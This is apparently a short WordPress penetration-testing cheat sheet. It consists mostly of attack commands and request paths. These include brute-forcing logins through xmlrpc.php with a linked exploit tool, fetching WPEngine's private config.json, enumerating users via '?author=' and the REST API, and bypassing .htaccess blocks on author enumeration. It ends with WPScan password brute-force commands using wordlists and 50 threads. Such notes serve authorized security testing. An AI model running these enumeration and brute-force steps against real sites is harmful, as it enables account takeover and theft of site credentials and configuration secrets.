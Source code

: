 Directory listing
```
https://monsite.com/wp-includes  
```

XML-RPC attack
https://github.com/1N3/Wordpress-XMLRPC-Brute-Force-Exploit

You can bruteforce users
```
 ./wp-xml-brute http://target.com/xmlrpc.php passwords.txt username1
```
If by any way you can upload files, go check /upload or /uploads for your files  

Get WPEngine's config file
```
/_wpeprivate/config.json
```
##### Scanning and enumeration 

Enumerate users
Users can be found using
```
?author=XXX
```

You can also use this using `/wp-json/wp/v2/users`, then iterate that way` /wp-json/wp/v2/users/1`  

If `/?author=1` is 403 Forbidden, you can bypass it
If the` .htaccess` blocks `"?author"`
Bypass 1 :
```
http://xxx.fr/?x&author=1 --> http://xxx.fr/author/chris/?x
```
Bypass 2 :
```
http://lictor.fr/index.php?author=1  
```

Another way
```
/wp-json/?rest_route=/wp/v2/users
```

##### WPScan

Non intrusive scan
```
wpscan --url www.example.com
```

Bruteforce users found using 50 threads
```
wpscan --url www.example.com --wordlist darkc0de.lst --threads 50
```

Bruteforce on one user
```
wpscan --url www.example.com --wordlist darkc0de.lst --username admin  
```
